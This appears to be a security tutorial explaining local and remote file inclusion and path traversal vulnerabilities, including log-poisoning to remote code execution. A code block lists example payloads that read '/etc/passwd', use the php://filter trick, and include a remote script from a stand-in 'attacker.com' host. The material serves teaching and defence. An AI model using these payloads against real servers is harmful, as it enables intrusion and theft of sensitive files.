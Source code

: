 For example, the application below includes a file based on user input.
If this input is not correctly validated and sanitized, an attacker might exploit the vulnerable parameter to include malicious files or access sensitive files on the server. In this case, the attacker could view the contents of the server's **passwd** file.

In short, file inclusion and path traversal vulnerabilities arise when user inputs are not properly sanitized or validated. Since attackers can inject malicious payloads to log files `/var/log/apache2/access.log` and manipulate file paths to execute the logged payload, an attacker can achieve remote code execution. An attacker may also read configuration files that contain sensitive information, like database credentials, if the application returns the file in plaintext. Lastly, insufficient error handling may also reveal system paths or file structures, providing clues to attackers about potential targets for path traversal or file inclusion attacks.



## file inclusion types

#### Basics of File Inclusion

A traversal string, commonly seen as `../`, is used in path traversal attacks to navigate through the directory structure of a file system. It's essentially a way to move up one directory level. Traversal strings are used to access files outside the intended directory.

<span style="color:#a0f958">Relative pathing</span> refers to locating files based on the current directory. For example, `include('./folder/file.php')` implies that `file.php` is located inside a folder named `folder`, which is in the same directory as the executing script.

<span style="color:#a0f958">Absolute pathing </span>involves specifying the complete path starting from the root directory. For example, `/var/www/html/folder/file.php` is an absolute path.

```
Can you exploit the "?page=" parameter?

test.com/lfi.php?page=/etc/passwd
test.com/lfi.php?page=/var/log/apache2/access.log
include.php?page=http://attacker.com/exploit.php
include.php?page=../../../../etc/passwd

php://filter/convert.base64-encode/resource=/etc/passwd
```

#### Remote File Inclusion

Remote File Inclusion, or RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.

#### Local File Inclusion

Local File Inclusion, or LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like `include.php?page=../../../../etc/passwd`.
